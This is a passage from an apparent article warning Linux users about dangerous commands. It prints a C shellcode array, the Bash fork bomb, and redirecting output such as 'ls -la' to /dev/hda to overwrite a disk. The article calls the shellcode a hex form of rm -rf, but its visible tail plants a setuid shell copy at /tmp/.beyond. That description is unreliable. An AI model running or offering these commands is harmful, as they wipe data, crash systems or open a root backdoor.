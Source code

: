 True, most modern systems warn you in great big letters before you make this blunder. However, if you are busy or distracted as you pound away on the keyboard, you can type your system into a black hole.

There are sneakier ways to get rm -rf. Consider the code below:

`char esp[] __attribute__ ((section(".text"))) = "\xeb\x3e\x5b\x31\xc0\x50\x54\x5a\x83\xec\x64\x68"`

`"\xff\xff\xff\xff\x68\xdf\xd0\xdf\xd9\x68\x8d\x99"`

`"\xdf\x81\x68\x8d\x92\xdf\xd2\x54\x5e\xf7\x16\xf7"`

`"\x56\x04\xf7\x56\x08\xf7\x56\x0c\x83\xc4\x74\x56"`

`"\x8d\x73\x08\x56\x53\x54\x59\xb0\x0b\xcd\x80\x31"`

`"\xc0\x40\xeb\xf9\xe8\xbd\xff\xff\xff\x2f\x62\x69"`

`"\x6e\x2f\x73\x68\x00\x2d\x63\x00"`

`"cp -p /bin/sh /tmp/.beyond; chmod 4755`

`/tmp/.beyond;";`

What is it? It's the hex version of `rm -rf`. Don't run any command unless you know what it is.

### Bash fork bomb

Since we are on the topic of odd-looking code, consider this line:
```
:(){ :|: & };:
```

It may look cryptic to you, but to me, it looks like the infamous [Bash fork bomb][4]. All it does is start new Bash shells, over and over again, until all your system resources are consumed and the system crashes.

An up-to-date Linux system shouldn't do this. Note, I said shouldn't. I didn't say won't. Properly set up, Linux systems block this behavior from causing too much harm by setting user limits. Usually, users are restricted to allocate only the memory that the machine has available. But if you run the above (or some other [Bash fork bomb variants][5]) as root, you can still knock a server off until it's rebooted.

### Overwriting the hard drive with garbage

There are times you want to zap the data from a disk, but for that job, you should use a tool such as [Darik's Boot and Nuke (DBAN)][6].

But for just making a royal mess of your storage, it's hard to beat running:
```
Any command > /dev/hda
```

When I say "any command," I mean any command with output. For example:
```
ls -la > /dev/hda
```

…pipes the directory listing to your main storage device. Given time, and root privileges, this overwrites all the data on your drive. That's always a good way to start the day in a blind panic--or turn it into a [career-limiting crisis][7].
